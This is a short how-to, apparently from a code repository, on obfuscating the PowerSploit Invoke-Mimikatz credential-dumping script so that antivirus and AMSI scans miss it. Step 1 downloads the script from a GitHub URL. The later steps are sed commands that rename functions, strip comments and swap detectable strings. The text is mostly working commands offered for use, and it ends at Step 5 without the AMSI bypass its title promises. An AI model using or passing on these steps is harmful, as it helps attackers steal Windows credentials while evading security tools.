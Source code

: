 # AMSI evasion and clear text password to spike the mimikatz hash

### What is this? 
Antivirus evasion activity using set command and ISE sploit module to bypass windows and anti-malware scan and AMSI as well

### How we can do it?  
- Step 1: download Invoke-Mimikatz.ps1 from PowershellMafia:
  https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1

- Step 2: then substitute all “invoke-Mimikatz” currencies with “invoke-Lsasscraper” inside the invoke-mimikatze.ps1 script:
  sed -i -e 's/Invoke-Mimikatz/Invoke-LSASSscraper/g' Invoke-Mimikatz.ps1

- Step 3: remove all comments:
  sed -i -e '/<#/,/#>/c\\' Invoke-Mimikatz.ps1

- Step 4: remove all comment indented
  sed -i -e 's/^[[:space:]]*#.*$//g' Invoke-Mimikatz.ps1

- Step 5: replace parameters and strings they can picked up by antivirus engine:
  sed -i -e 's/DumpCreds/Dump/g' Invoke-Mimikatz.ps1
  sed -i -e 's/ArgumentPtr/0bf/g' Invoke-Mimikatz.ps1
  sed -i -e 's/CallDllMainSC1/0bfSC1/g' Invoke-Mimikatz.ps1
  sed -i -e "s/\-Win32Functions \$Win32Functions$/\-Win32Functions \$Win32Functions #\-/g" Invoke-Mimikatz.ps1
